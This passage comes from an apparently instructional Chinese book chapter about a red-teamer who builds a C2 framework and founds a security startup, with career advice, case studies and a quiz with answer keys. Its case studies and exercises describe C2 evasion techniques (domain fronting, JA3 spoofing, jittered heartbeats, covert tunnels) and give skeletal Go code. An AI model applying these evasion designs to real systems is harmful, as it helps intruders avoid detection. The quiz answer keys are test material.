我们关注安全工具赛道，认为国产化安全工具是个大机会。
如果您有创业的打算，我们想跟您聊聊。

XX资本 投资经理
```

一开始我没当回事，但是聊了几家之后，我开始认真考虑创业这件事。

```
🤔 创业还是不创业？

【支持创业的理由】
1. 国产化安全工具是个大机会
   - 信创大背景下，国产化替代是大趋势
   - 国产化环境的安全工具，市场需求大
   - 但是主流厂商跟不上
   - 这是一个"蓝海"

2. 我有合适的产品
   - PhantomC2已经验证了市场需求
   - 5000+ Star，有用户基础
   - 有技术积累

3. 我有合适的团队
   - 老吴可以一起出来
   - 小陈也愿意跟
   - 还有几个PhantomC2的贡献者

4. 有投资机构支持
   - 不用自己掏钱
   - 有资金支持，可以专心做产品

【反对创业的理由】
1. 风险大
   - 创业九死一生
   - 现在工作稳定，收入不错
   - 创业失败，可能啥都没了

2. 管理是短板
   - 我只会写代码
   - 不会管理、不会销售、不会融资
   - 创业不只是写代码

3. 家庭压力
   - 有房贷、有孩子
   - 创业收入不稳定
   - 家庭压力会很大

4. 时机问题
   - 现在是创业的好时机吗？
   - 经济下行，融资难
   - 客户预算紧
```

我跟老婆商量了很久。

```
👨‍💻 我：老婆，我想创业。
👩‍💼 老婆：创业？想清楚了？
👨‍💻 我：想清楚了。国产化安全工具是个大机会，我不想错过。
👩‍💼 老婆：风险呢？
👨‍💻 我：风险是有的。但是：
       1. 我们有积蓄，能撑1-2年
       2. 有投资机构 interested
       3. 即使失败，我还能回去打工
       4. 但是如果错过这个机会，我会后悔一辈子
👩‍💼 老婆：行，我支持你。但是有几个条件：
       1. 不要 all in，留一部分积蓄保底
       2. 给自己设一个期限，2年内做不起来就回去打工
       3. 周末要陪孩子
👨‍💻 我：成交！
```

跟老吴商量，老吴也愿意一起出来。

```
👨‍💼 老吴：我也想通了。
        在公司打工，天花板就那样。
        出来创业，虽然风险大，但是上限高。
        而且，国产化安全工具这个赛道，确实是大机会。
        我们一起干！
```

于是，我辞职了，跟老吴一起创办了公司。

### 9.2 公司定位

```
🏢 公司基本信息：

【公司名】
脱敏处理，这里叫"幻影安全"（化名）

【定位】
专注国产化环境的安全工具研发

【产品线】
1. PhantomC2 企业版
   - 基于开源版，加企业级功能
   - 多租户、审计、合规
   - 商业license

2. 国产化漏扫平台
   - 针对国产软件的漏洞扫描
   - 覆盖麒麟OS、达梦、东方通等

3. 国产化EDR
   - 针对国产OS的终端检测响应
   - 跟我们的C2"对抗"训练

4. 安全工具定制服务
   - 给企业定制安全工具
   - 给红队提供基础设施

【目标客户】
- 政府机构（信创刚需）
- 央企国企（国产化替代）
- 安全公司（工具供应商）
- 红队/护网队伍
```

**图128-7 幻影安全公司业务架构**



### 9.3 创业的酸甜苦辣

创业一年半，我经历了什么？

```
📉 创业的真实经历：

【第1-3个月：蜜月期】
- 注册公司
- 找办公室（小，但是是自己的）
- 招人（从老同事、开源社区招）
- 拿到天使轮投资（500万）
- 激情满满，觉得"我们能改变世界"

【第4-6个月：产品期】
- 闭关开发
- 把开源版PhantomC2打磨成企业版
- 开发国产化漏扫平台
- 第一个客户试用
- 产品成熟度不够，客户吐槽
- 通宵改bug，压力山大

【第7-9个月：销售期】
- 产品差不多了，开始卖
- 但是！销售好难
  - 政府客户：要走采购流程，周期半年起步
  - 央企客户：要招投标，更慢
  - 安全公司：价格压得低
- 3个月只签了2个小单，收入不够发工资
- 开始焦虑

【第10-12个月：危机期】
- 钱快烧完了
- 投资人催进度
- 有几个员工离职（觉得公司没前途）
- 我跟老吴吵架（关于产品方向）
- 老婆问我"还要撑多久"
- 我差点放弃

【第13-15个月：转机】
- 一个省级护网，有队伍用了我们的C2
- 拿了第一名
- 在圈子里传开了
- 几个政府客户主动找上门
- 签了一个大单（300万）
- 活过来了！

【第16-18个月：稳定期】
- 客户越来越多
- 团队扩张到15人
- 跟几家大安全公司达成合作
- 准备A轮融资
- 终于松了一口气
```

```
😅 创业踩过的坑：

【坑1：产品做得太"完美"才上市】
- 一开始想"把产品做到完美再卖"
- 结果做了6个月，还没上市
- 竞争对手先上市了
- 教训：先上市，再迭代（MVP原则）

【坑2：销售比想象的难100倍】
- 我以为"产品好，客户自然会来"
- 错！产品再好，客户不知道你，也不会买
- 销售需要主动出击
- 需要人脉、需要关系、需要耐心
- 教训：销售是创业的核心，不是"附属品"

【坑3：政府客户周期太长】
- 政府客户采购流程：需求调研→预算申请→采购计划→招投标→合同→交付→验收
- 一个流程走下来，半年到一年
- 我们前期现金流差点断了
- 教训：不要只做政府客户，要有"快钱"业务

【坑4：团队管理是短板】
- 我是技术出身，不会管人
- 早期员工流失率高
- 后来招了专业的运营总监，才好转
- 教训：技术创始人要补"管理课"

【坑5：融资节奏没把握好】
- 天使轮拿了500万，觉得够花2年
- 结果扩张太快，1年就快烧完了
- 临时找A轮，谈判被动
- 教训：融资要"未雨绸缪"，账上至少留12个月的 runway
```

> 💡 **给想创业的技术人的建议**
> 1. **不要为了创业而创业**：创业是手段，不是目的。要有真实的"痛点"和"机会"
> 2. **技术不是全部**：销售、管理、融资，每一样都可能让你"翻车"
> 3. **找好合伙人**：技术+销售+管理，至少要有这三种能力的人
> 4. **现金流是命**：账上没钱，公司就死了。融资要趁早
> 5. **先活下去，再谈理想**：不要一上来就想"改变世界"，先让公司活下去
> 6. **MVP原则**：最小可行产品，先上市，再迭代
> 7. **客户第一**：产品再好，客户不买单就是白搭
> 8. **心态要好**：创业九死一生，要做好"失败"的心理准备

---

## 💡 给后来者的建议

### 10.1 从脚本小子到工具开发大神的路径

```
🗺️ 我的成长路径，给你参考：

【阶段1：脚本小子】
- 会用工具，不懂原理
- 遇到特殊环境就抓瞎
- 这是"起点"，不是"终点"

【阶段2：觉醒】
- 意识到"会用工具"不够
- 决定学编程
- 这是最关键的一步——下定决心

【阶段3：学编程】
- 从Python开始，入门快
- 写小工具：端口扫描器、目录爆破
- 体会"造工具"的快感

【阶段4：进阶】
- 学Go，追求性能
- 用Go重写之前的工具
- 读优秀的开源源码

【阶段5：开源】
- 开源自己的工具
- 接受社区反馈
- 持续迭代

【阶段6：深入】
- 学CS插件开发
- 学BOF开发
- 学C2框架开发
- 越来越"硬核"

【阶段7：工程化】
- 学团队协作
- 学工程化（测试、CI/CD、文档）
- 把"玩具"打磨成"生产级"

【阶段8：突破】
- 在实战中检验工具
- 在会议上分享经验
- 在行业里建立影响力

【阶段9：创业】（可选）
- 找到市场机会
- 组建团队
- 把工具做成产品
- 把产品做成公司
```

### 10.2 学编程的建议

```
📚 学编程，我的建议：

【1. 从Python开始】
- 语法简单，入门快
- 安全工具开发的主流语言之一
- 推荐：《Python编程：从入门到实践》、《Python黑帽子》

【2. 然后学Go】
- 性能好，部署方便
- 安全工具开发的"新宠"
- 推荐：Go官方文档、ProjectDiscovery的工具源码

【3. 多动手，少看视频】
- 看视频是"被动学习"，效率低
- 写代码是"主动学习"，效率高
- 看10小时视频，不如写1小时代码

【4. 从"造轮子"开始】
- 不要一上来就想搞大框架
- 先重写已有的小工具（端口扫描器、目录爆破）
- "造轮子"是最好的学习方式

【5. 读优秀的开源源码】
- 读源码是提升最快的途径
- 从简单的工具开始读
- 推荐读：naabu、httpx、subfinder、nuclei

【6. 开源自己的工具】
- 开源倒逼自己把代码写好
- 接受社区反馈，快速提升
- 建立个人品牌

【7. 不要怕"被嘲笑"】
- 新手写的代码肯定很挫
- 不要因为"怕被嘲笑"就不开源
- 真正的大佬，都是鼓励后辈的
```

### 10.3 学工具开发的建议

```
🛠️ 学安全工具开发，我的建议：

【1. 先会用，再会造】
- 你要先用过Nmap，才能写端口扫描器
- 你要先用过CS，才能写C2
- "会造工具"的前提是"会用工具"

【2. 理解工具的原理】
- Nmap的-sS和-sT差在哪？底层怎么实现？
- SQLMap的tamper怎么工作？SQL注入的本质是什么？
- CS的Beacon怎么通信？心跳怎么设计的？
- 理解原理，才能"造"出好工具

【3. 从小工具开始】
- 端口扫描器（最简单的网络工具）
- 目录爆破工具（HTTP基础）
- 子域名收集工具（多数据源融合）
- 漏洞扫描器（POC框架）
- C2框架（最复杂）

【4. 学习工具架构设计】
- 模块化：高内聚，低耦合
- 接口化：用interface定义契约
- 插件化：支持扩展
- 配置化：能用配置解决的不写死

【5. 学工程化】
- Git工作流
- 代码规范
- 测试
- CI/CD
- 文档
- 这些"软技能"比"硬技术"还重要

【6. 关注前沿】
- 关注安全工具的最新动态
- 关注新的攻击技术
- 关注新的防御技术
- 工具开发要跟上行业发展
```

### 10.4 给初学者的最后建议

```
🎯 给初学者的最后建议：

【1. 不要只做工具的使用者，要做工具的创造者】
- 这是我最想说的
- "会用工具"是基础，"会造工具"才是核心竞争力
- 工具的使用者，永远受限于工具的设计者
- 工具的创造者，才能定义"游戏规则"

【2. 不要怕开始】
- 没有人天生就会写代码
- 没有人天生就会造工具
- 我也是从"Hello World"开始的
- 第一步永远是最难的，但也是最关键的

【3. 不要怕失败】
- 学编程会遇到无数bug
- 写工具会遇到无数坑
- 开源会被人喷
- 创业会差点倒闭
- 但是，失败是成功之母
- 每一次失败，都是一次学习

【4. 持续学习】
- 技术更新很快
- 不学习就会被淘汰
- 每天抽时间学新东西
- 哪怕只是30分钟

【5. 找到自己的"差异化"】
- 不要做"又一个XXX"
- 要有自己的特色
- 我的特色是"国产化适配"
- 你的特色是什么？要自己找

【6. 享受过程】
- 技术这条路，很苦，但是也很有趣
- 创造的快感，是使用永远给不了的
- 看到自己造的工具，被很多人用，那种成就感
- 看到自己站在KCon讲台上，那种自豪感
- 这些，都是"享受"

【7. 不要忘记初心】
- 我学编程的初心，是被国产化环境毒打后不服气
- 我开源工具的初心，是想帮助像我一样的脚本小子
- 我创业的初心，是想做"国产化环境的安全工具"
- 不管走多远，不要忘记自己为什么出发
```

---

## 📚 案例讲解

### 案例1：C2框架的核心架构设计

**背景**：阿杰从C2 v0.1的"玩具"，重构成了PhantomC2的"生产级"框架。

**C2框架的核心组件**：

```
🏗️ C2框架的核心组件：

1. Listener（监听器）
   - 负责接收Agent的连接
   - 支持多协议（HTTP/HTTPS/DNS/TCP/ICMP/WebSocket）
   - 每种协议一个Listener
   - 用interface统一抽象

2. Agent Manager（Agent管理器）
   - 管理所有Agent的状态（在线/离线/休眠）
   - 维护任务队列
   - 收集执行结果
   - 处理Agent上下线
   - 持久化到数据库

3. Scheduler（任务调度器）
   - 管理任务的生命周期（pending→running→done/failed）
   - 处理任务超时
   - 处理任务重试
   - 处理任务优先级

4. Implant（Agent/被控端）
   - 在目标机器上运行
   - 心跳保活（带抖动、行为模拟）
   - 执行任务
   - 回传结果
   - 多通道冗余

5. Communication Protocol（通信协议层）
   - 多协议支持
   - 流量加密
   - 流量伪装
   - 域前置
   - DoH

6. Plugin System（插件系统）
   - Go原生插件
   - Lua脚本插件
   - BOF加载器
   - 统一的插件接口

7. Client（客户端）
   - CLI
   - Web UI
   - 多用户支持
   - 权限管理
```

**设计原则**：

```
📐 C2架构的设计原则：

1. 模块化
   - 每个模块职责单一
   - 模块之间通过接口通信
   - 高内聚，低耦合

2. 接口化
   - Listener、Store、Plugin都是interface
   - 方便替换实现
   - 方便测试（mock）

3. 配置化
   - 心跳间隔、加密方式、协议类型都用配置
   - 不写死在代码里
   - 不同场景用不同配置

4. 可扩展
   - 插件系统预留扩展点
   - 加新功能不动核心代码
   - 加新协议只要实现Listener接口

5. 可观测
   - 结构化日志
   - 监控指标
   - 链路追踪
```

### 案例2：流量隐蔽的工程实践

**背景**：阿杰的C2被蓝队检测后，通过四层防御模型解决了流量隐蔽问题。

**流量隐蔽的四个层次**：

```
🔒 流量隐蔽四层防御：

【第一层：基础通信】
- 多协议支持（HTTP/DNS/TCP/ICMP）
- 多通道冗余
- 断线重连
- 解决"单一通道被阻断"的问题

【第二层：流量加密】
- HTTPS/TLS加密
- uTLS伪装JA3指纹
- 合法证书（Let's Encrypt）
- 解决"明文被抓包"和"TLS指纹被识别"的问题

【第三层：协议伪装】
- 域前置（Domain Fronting）
- 自定义协议（伪装成图片网站API）
- DNS over HTTPS
- 解决"SNI暴露"和"流量特征明显"的问题

【第四层：行为模拟】
- 心跳间隔随机化（不只是抖动）
- 流量大小波动（随机填充）
- 访问模式模拟（模拟浏览器行为）
- 时间分布模拟（工作时间活跃，半夜不活跃）
- 解决"行为模式被识别"的问题
```

**实战效果**：

```
📊 流量隐蔽的实战效果：

【改造前】
- 1天内被蓝队检测
- 蓝队判定："C2通信"（100%确认）
- Agent被清理

【改造后】
- 3天蓝队没检测到
- 第4天蓝队"怀疑"
- 蓝队判定："疑似C2通信"（无法100%确认）
- Agent一直在线

【关键指标】
- 检测时间：1天 → 3天+（提升3倍+）
- 检测置信度：100%确认 → 疑似（无法100%确认）
- Agent存活时间：1天 → 7天+（护网周期内全程在线）

【经验总结】
- 流量隐蔽不是"一招制敌"，而是"多层防御"
- 任何单一手段都会被识破，组合使用才能提高成本
- 永远不要相信"绝对隐蔽"，要假设"会被发现"，做好应急方案
- 流量隐蔽是一个持续对抗的过程，蓝队升级，红队也要升级
```

> 💡 **流量隐蔽的本质**：
> 不是让蓝队"检测不到"，而是让蓝队"检测成本 > 收益"。
> 当蓝队要花3天才能确认一个流量是否是C2，他们的处置效率就会大幅下降。
> 红队的胜算，就来自这"3天的窗口期"。

---

### 案例3：内网穿透工具的设计哲学

阿杰在开发内网穿透工具"幻影隧道"时，遇到的最大问题不是技术，而是**设计哲学**。

```
🤔 内网穿透工具的设计哲学：

【问题】
- 已有的工具（frp、nps）功能都很全
- 为什么还要自己开发？
- 自己开发的有什么优势？

【阿杰的思考】
- frp/nps 是"通用工具"，不是"红队专用工具"
- 通用工具的特征：
  * 流量特征明显（默认配置就有特征）
  * 协议是公开的（蓝队也知道）
  * 检测规则已经在IDS里了
- 红队专用工具的特征：
  * 流量加密 + 混淆
  * 协议自定义（蓝队没有规则）
  * 支持多种穿透模式（TCP/UDP/SOCKS5/代理链）
  * 支持多级跳板
  * 支持断线重连
  * 支持流量伪装（伪装成正常业务）
```

阿杰设计的"幻影隧道"架构：

```go
// 幻影隧道的核心架构
package tunnel

// 隧道类型
type TunnelType int

const (
    TunnelTCP    TunnelType = iota // TCP隧道
    TunnelUDP                       // UDP隧道
    TunnelSOCKS5                    // SOCKS5代理
    TunnelHTTP                      // HTTP隧道
    TunnelDNS                       // DNS隧道
    TunnelICMP                      // ICMP隧道
)

// 隧道配置
type TunnelConfig struct {
    Type        TunnelType
    LocalAddr   string   // 本地地址
    RemoteAddr  string   // 远程地址
    ProxyChain  []string // 代理链
    Encryption  string   // 加密方式
    Obfuscation string   // 混淆方式
    Reconnect   bool     // 断线重连
    MaxRetries  int      // 最大重试次数
}

// 隧道管理器
type TunnelManager struct {
    tunnels map[string]*Tunnel
    mu      sync.RWMutex
}

// 创建隧道
func (tm *TunnelManager) CreateTunnel(config *TunnelConfig) (*Tunnel, error) {
    // 根据类型创建对应的隧道
    var tunnel *Tunnel
    var err error

    switch config.Type {
    case TunnelTCP:
        tunnel, err = NewTCPTunnel(config)
    case TunnelSOCKS5:
        tunnel, err = NewSOCKS5Tunnel(config)
    case TunnelHTTP:
        tunnel, err = NewHTTPTunnel(config)
    case TunnelDNS:
        tunnel, err = NewDNSTunnel(config)
    case TunnelICMP:
        tunnel, err = NewICMPTunnel(config)
    default:
        return nil, fmt.Errorf("unsupported tunnel type")
    }

    if err != nil {
        return nil, err
    }

    // 注册隧道
    tm.mu.Lock()
    tm.tunnels[tunnel.ID] = tunnel
    tm.mu.Unlock()

    return tunnel, nil
}
```

**幻影隧道 vs frp/nps 的对比**：

```
📊 红队专用工具 vs 通用工具对比：

【功能对比】
功能              | frp | nps | 幻影隧道
TCP穿透          | ✅  | ✅  | ✅
UDP穿透          | ✅  | ✅  | ✅
SOCKS5代理      | ❌  | ✅  | ✅
HTTP隧道         | ❌  | ✅  | ✅
DNS隧道          | ❌  | ❌  | ✅
ICMP隧道         | ❌  | ❌  | ✅
多级跳板          | ❌  | ❌  | ✅
代理链            | ❌  | ❌  | ✅
流量加密          | ✅  | ✅  | ✅
流量混淆          | ❌  | ❌  | ✅
自定义协议        | ❌  | ❌  | ✅
断线重连          | ✅  | ✅  | ✅
配置加密          | ❌  | ❌  | ✅

【检测难度对比】
工具              | 蓝队检测时间 | 检测难度
frp（默认配置）  | 5分钟      | 极易
frp（改配置）    | 30分钟     | 容易
nps（默认配置）  | 10分钟     | 极易
nps（改配置）    | 1小时      | 容易
幻影隧道          | 3天+       | 困难
```

> 💡 **设计哲学总结**：
> 通用工具追求"易用性"，红队工具追求"隐蔽性"。
> 这是两个完全不同的设计目标，所以红队需要自研工具。
> 阿杰说："造工具不是为了重复造轮子，而是为了造一个更适合自己场景的轮子。"

---

### 案例4：护网实战复盘——用自己的工具打穿靶场

护网复仇之战结束后，阿杰做了一次完整的复盘。

```
📊 护网复仇之战复盘：

【时间线】
D1 上午：信息收集，用自研子域名工具找到3个隐藏资产
D1 下午：用自研扫描器找到2个0day，打穿外围
D1 晚上：C2上线，10台机器，流量隐蔽，蓝队没发现
D2 全天：横向移动，用幻影隧道做代理，拿下50+台机器
D3 上午：摸到核心区边缘，用自研提权工具拿到root
D3 下午：拿下域控，打穿整个靶场
D4-D7：维持权限，清理痕迹，蓝队全程没发现

【关键决策】
1. 全程使用自研工具，不用任何公开工具
   → 避免被蓝队的特征库检测
2. C2流量四层伪装
   → 蓝队3天没发现C2通信
3. 多级跳板 + 代理链
   → 追溯困难，蓝队找不到源头
4. 不急着拿域控，先稳扎稳打扩大据点
   → 避免打草惊蛇

【对比上一次护网】
指标              | 上次（脚本小子）| 这次（工具开发）
打到域控          | ❌ 失败         | ✅ 成功
存活时间          | 1天被发现       | 7天没被发现
拿下机器数        | 0台            | 80+台
使用工具          | 全是公开工具    | 全是自研工具
团队贡献          | 打杂           | MVP
```

阿杰的复盘感言：

> "这次护网最大的收获，不是打穿了靶场，而是证明了'工具开发'的价值。
> 上次我用公开工具，1天就被发现，啥也没干成。
> 这次我用自研工具，7天没被发现，打穿整个靶场。
>
> 同样的目标，同样的蓝队，唯一不同的是工具。
> 这就是'造工具'的力量。"

---

### 案例5：创业的经验教训

阿杰创办"幻影安全"公司，一路走来踩了不少坑。

```
📊 创业的经验教训：

【教训1：不要只做"技术好"的公司】
- 早期阿杰觉得"技术好就能赢"
- 结果发现：客户不关心你的技术多牛，只关心"你能解决我什么问题"
- 调整：从"技术驱动"转向"客户驱动"
- 现在的产品，每个功能都对应客户的某个痛点

【教训2：开源不等于商业模式】
- C2框架开源后获得5000+ Star
- 但开源用户 ≠ 付费客户
- 开源用户是"白嫖党"，付费客户是"企业"
- 调整：开源版（社区版）+ 企业版（付费）双轨制
- 开源版吸引流量，企业版赚钱

【教训3：团队比技术更重要】
- 早期阿杰一个人写代码，累死
- 后来招人，招错了几个人，浪费时间和金钱
- 调整：招聘要看"价值观匹配"，不只是技术能力
- 现在的团队：5个核心开发，都是阿杰亲自带出来的

【教训4：现金流是命脉】
- 早期阿杰只顾做产品，不管销售
- 结果产品做好了，没钱了
- 差点发不出工资
- 调整：产品 + 销售并行，早期就要有现金流
- 现在的营收：产品销售60% + 安全服务30% + 培训10%

【教训5：不要贪大求全】
- 早期想做"全栈安全产品"
- 结果哪个都做不好
- 调整：聚焦"红队工具"这一个细分领域
- 做到细分领域的第一
```

阿杰的创业建议：

> "创业不是技术比赛，是综合能力的比拼。
> 技术、产品、销售、管理、财务... 哪一块短板都会要命。
> 如果你想创业，先问问自己：除了技术，我还能干什么？
> 如果答案是'啥也干不了'，那就先别创业，先补课。"

---

## 📝 课后习题

### 一、选择题

**1. 阿杰开发C2框架时，心跳机制采用的核心策略是？**

A. 固定间隔心跳，简单可靠
B. 随机抖动 + 指数退避，避免被检测
C. 高频心跳，确保实时性
D. 无心跳，按需通信

<details>
<summary>查看答案</summary>

**答案：B**

解析：固定间隔的心跳会被蓝队通过流量分析识别出"规律性"，从而检测到C2通信。阿杰采用"基础间隔 + 随机抖动 + 指数退避"的策略，既保证通信的可靠性，又避免被流量分析检测。

</details>

**2. C2流量隐蔽的"四层防御模型"不包括以下哪一层？**

A. 传输层：HTTPS + uTLS伪装JA3指纹
B. 协议层：自定义协议，避免特征匹配
C. 物理层：MAC地址伪装
D. 行为层：模拟正常用户行为模式

<details>
<summary>查看答案</summary>

**答案：C**

解析：四层防御模型包括：传输层（HTTPS+uTLS）、协议层（自定义协议）、内容层（流量混淆+域前置）、行为层（行为模拟）。物理层的MAC地址伪装不属于C2流量隐蔽的范畴。

</details>

**3. 域前置（Domain Fronting）技术的核心原理是？**

A. 使用CDN的真实IP直接通信
B. 利用CDN的SNI与Host头不一致特性，用合法域名做SNI，实际通信走C2域名
C. 使用DNS over HTTPS隐藏域名解析
D. 通过ICMP隧道传输数据

<details>
<summary>查看答案</summary>

**答案：B**

解析：域前置利用CDN的特性：TLS握手时SNI字段用的是合法域名（如微软的域名），但HTTP层的Host头指向C2域名。CDN会根据Host头将流量转发到C2服务器，而蓝队只能看到SNI里的合法域名。

</details>

**4. 阿杰开发内网穿透工具"幻影隧道"的核心设计理念是？**

A. 功能越多越好，覆盖所有场景
B. 追求易用性，让小白也能用
C. 追求隐蔽性，针对红队场景优化
D. 完全模仿frp/nps的设计

<details>
<summary>查看答案</summary>

**答案：C**

解析：通用工具（frp/nps）追求易用性，但流量特征明显、协议公开，容易被蓝队检测。红队专用工具的核心设计理念是"隐蔽性"——自定义协议、流量混淆、多级跳板、代理链，都是为了提高蓝队的检测成本。

</details>

**5. 阿杰的C2框架开源后获得5000+ Star，其开源策略的核心是？**

A. 完全开源，所有功能免费
B. 闭源商业销售，不开源
C. 社区版开源 + 企业版付费的双轨制
D. 只开源文档，代码闭源

<details>
<summary>查看答案</summary>

**答案：C**

解析：阿杰采用"社区版开源吸引流量 + 企业版付费赚钱"的双轨制。开源版提供基础功能，吸引社区用户和Star；企业版提供高级功能（多协议、插件系统、企业级支持），面向付费客户。这是开源安全工具的主流商业模式。

</details>

### 二、填空题

**1.** C2框架的核心架构包括七大模块：Listener、________、Scheduler、Implant、Protocol、________、Client。

<details>
<summary>查看答案</summary>

**答案：Agent Manager、Plugin System**

解析：C2框架的七大核心模块：Listener（监听器）、Agent Manager（Agent管理器）、Scheduler（任务调度器）、Implant（植入体）、Protocol（通信协议）、Plugin System（插件系统）、Client（客户端）。

</details>

**2.** 流量隐蔽的四层防御模型包括：传输层、________、内容层、________。

<details>
<summary>查看答案</summary>

**答案：协议层、行为层**

解析：四层防御模型：传输层（HTTPS+uTLS）、协议层（自定义协议）、内容层（流量混淆+域前置）、行为层（行为模拟）。

</details>

**3.** 阿杰在C2框架中实现任务调度采用的是________模型，使用Go语言的________实现并发控制。

<details>
<summary>查看答案</summary>

**答案：生产者-消费者、goroutine + channel**

解析：任务调度采用生产者-消费者模型，任务队列用channel实现，worker用goroutine实现，通过worker pool模式控制并发数。

</details>

**4.** DNS over HTTPS（DoH）的作用是________，可以避免________检测。

<details>
<summary>查看答案</summary>

**答案：通过HTTPS加密DNS查询、DNS明文**

解析：传统DNS查询是明文的，蓝队可以通过监控DNS流量发现C2的域名解析行为。DoH通过HTTPS加密DNS查询，蓝队只能看到加密的HTTPS流量，无法看到具体查询的域名。

</details>

**5.** 阿杰创办的安全公司叫"________"，其商业模式是________+安全服务+培训。

<details>
<summary>查看答案</summary>

**答案：幻影安全、产品销售**

解析：阿杰创办"幻影安全"，营收构成：产品销售60% + 安全服务30% + 培训10%。

</details>

### 三、简答题

**1. 简述C2框架中心跳机制的设计要点，以及为什么不能使用固定间隔的心跳。**

<details>
<summary>参考答案</summary>

心跳机制的设计要点：

1. **基础间隔 + 随机抖动**：设定一个基础间隔（如60秒），每次心跳在基础间隔上叠加一个随机抖动（如±30秒），避免心跳间隔过于规律。

2. **指数退避**：当通信失败时，采用指数退避策略（如2秒、4秒、8秒、16秒...），避免频繁重连被检测，同时设置最大退避时间（如1小时）。

3. **最大重试次数**：超过最大重试次数后，Agent进入"休眠模式"或"自杀模式"，避免被蓝队长期监控。

4. **Jitter范围控制**：抖动范围要合理，太小没效果，太大影响通信时效性，一般建议±30%-50%。

**为什么不能用固定间隔**：
- 固定间隔的心跳会在流量分析中形成"规律性峰值"
- 蓝队的流量分析工具（如Zeek、Suricata）可以通过统计检测识别出这种规律性
- 一旦识别为"规律性心跳"，就会被标记为"疑似C2通信"
- 所以必须加入随机性，让心跳间隔看起来像"随机噪声"

</details>

**2. 流量隐蔽的"四层防御模型"分别解决什么问题？请逐层说明。**

<details>
<summary>参考答案</summary>

**传输层（HTTPS + uTLS）**：
- 解决问题：明文HTTP通信会被直接识别；标准TLS握手的JA3指纹会被识别为Go/Python默认客户端
- 方案：用HTTPS加密通信，用uTLS伪装JA3指纹为Chrome/Firefox浏览器

**协议层（自定义协议）**：
- 解决问题：公开的C2协议（如Cobalt Strike的Beacon协议）已经被蓝队研究透了，特征规则已经在IDS里
- 方案：自定义协议格式，加密payload，随机填充，避免固定magic number

**内容层（流量混淆 + 域前置）**：
- 解决问题：流量大小、频率、模式有特征；C2域名会被威胁情报标记
- 方案：流量大小随机化；用域前置让SNI显示合法域名，隐藏真实C2域名；用DoH隐藏DNS解析

**行为层（行为模拟）**：
- 解决问题：C2通信的"行为模式"与正常用户不同（如半夜活跃、固定频率访问）
- 方案：模拟正常浏览器行为（先访问首页再访问API），工作时间活跃半夜不活跃，访问路径随机化

</details>

**3. 阿杰从"脚本小子"蜕变为"工具开发大神"，其成长路径中有哪些关键转折点？**

<details>
<summary>参考答案</summary>

阿杰的成长路径中有以下几个关键转折点：

1. **护网翻车（受刺激）**：第一次护网遇到国产化环境，主流工具全废，被老吴的自研工具"打脸"，认识到"会用工具"和"会造工具"是两个世界。这是觉醒的开始。

2. **学Python（行动）**：从零开始学Python，写出第一个端口扫描器LiteScan。这是从"使用者"到"创造者"的第一步。

3. **转型Go（升级）**：发现Python的性能瓶颈，转型学Go，用Go重写工具。这是技术栈的升级，也是思维方式的升级。

4. **开源LiteScan（验证）**：开源后获得1000+ Star，验证了自己的能力，也建立了行业影响力。

5. **加入工具研发组（平台）**：被老吴邀请加入工具研发组，有了更大的平台和更专业的团队。

6. **开发C2框架（突破）**：从"小工具"到"大型框架"，是技术能力的重大突破。

7. **流量被检测（挫折）**：C2流量被蓝队检测，这是新的挫折，也是新的学习机会。

8. **研究流量隐蔽（深化）**：深入研究流量隐蔽技术，C2框架升级到v2.0。

9. **护网复仇（证明）**：用自己的C2框架打穿靶场，证明了"造工具"的价值。

10. **开源C2 + 演讲 + 创业（升华）**：从"技术人员"到"行业影响力"再到"创业者"，完成了从脚本小子到工具开发大神的完整蜕变。

</details>

### 四、实操题

**1. 用Go实现一个简单的心跳机制**

要求：
- 基础间隔60秒，随机抖动±30秒
- 指数退避（失败时）：2秒、4秒、8秒...，最大1小时
- 最大重试次数5次，超过后进入休眠

<details>
<summary>参考代码</summary>

```go
package main

import (
    "fmt"
    "math/rand"
    "time"
)

type Heartbeat struct {
    BaseInterval time.Duration // 基础间隔
    JitterRange  time.Duration // 抖动范围
    MaxRetries   int           // 最大重试次数
    MaxBackoff   time.Duration // 最大退避时间
}

func NewHeartbeat() *Heartbeat {
    return &Heartbeat{
        BaseInterval: 60 * time.Second,
        JitterRange:  30 * time.Second,
        MaxRetries:   5,
        MaxBackoff:   1 * time.Hour,
    }
}

// 计算下一次心跳间隔（带抖动）
func (h *Heartbeat) NextInterval() time.Duration {
    jitter := time.Duration(rand.Int63n(int64(h.JitterRange)*2)) - h.JitterRange
    return h.BaseInterval + jitter
}

// 计算退避间隔（指数退避）
func (h *Heartbeat) BackoffInterval(retryCount int) time.Duration {
    backoff := time.Duration(1<<retryCount) * time.Second // 2^n秒
    if backoff > h.MaxBackoff {
        backoff = h.MaxBackoff
    }
    return backoff
}

func main() {
    hb := NewHeartbeat()
    retryCount := 0

    for {
        if retryCount >= hb.MaxRetries {
            fmt.Println("超过最大重试次数，进入休眠模式")
            break
        }

        // 执行心跳
        err := doHeartbeat()
        if err != nil {
            retryCount++
            backoff := hb.BackoffInterval(retryCount)
            fmt.Printf("心跳失败，第%d次重试，%v后重试\n", retryCount, backoff)
            time.Sleep(backoff)
            continue
        }

        // 心跳成功，重置重试计数
        retryCount = 0
        nextInterval := hb.NextInterval()
        fmt.Printf("心跳成功，%v后下一次心跳\n", nextInterval)
        time.Sleep(nextInterval)
    }
}

func doHeartbeat() error {
    // 模拟心跳
    if rand.Float32() < 0.3 { // 30%概率失败
        return fmt.Errorf("connection failed")
    }
    return nil
}
```

</details>

**2. 用Go实现一个简单的任务调度器（生产者-消费者模型）**

要求：
- 任务队列大小100
- Worker数量5
- 支持任务优先级（高/中/低）

<details>
<summary>参考代码</summary>

```go
package main

import (
    "fmt"
    "sync"
    "time"
)

type TaskPriority int

const (
    PriorityHigh   TaskPriority = 0
    PriorityMedium TaskPriority = 1
    PriorityLow    TaskPriority = 2
)

type Task struct {
    ID       int
    Priority TaskPriority
    Command  string
    Args     []string
}

type Scheduler struct {
    taskQueue chan Task
    workers   int
    wg        sync.WaitGroup
}

func NewScheduler(workers, queueSize int) *Scheduler {
    return &Scheduler{
        taskQueue: make(chan Task, queueSize),
        workers:   workers,
    }
}

func (s *Scheduler) Start() {
    for i := 0; i < s.workers; i++ {
        s.wg.Add(1)
        go s.worker(i)
    }
}

func (s *Scheduler) worker(id int) {
    defer s.wg.Done()
    for task := range s.taskQueue {
        fmt.Printf("Worker %d 执行任务 %d (优先级:%d): %s\n",
            id, task.ID, task.Priority, task.Command)
        time.Sleep(100 * time.Millisecond) // 模拟执行
    }
}

func (s *Scheduler) Submit(task Task) error {
    select {
    case s.taskQueue <- task:
        return nil
    default:
        return fmt.Errorf("任务队列已满")
    }
}

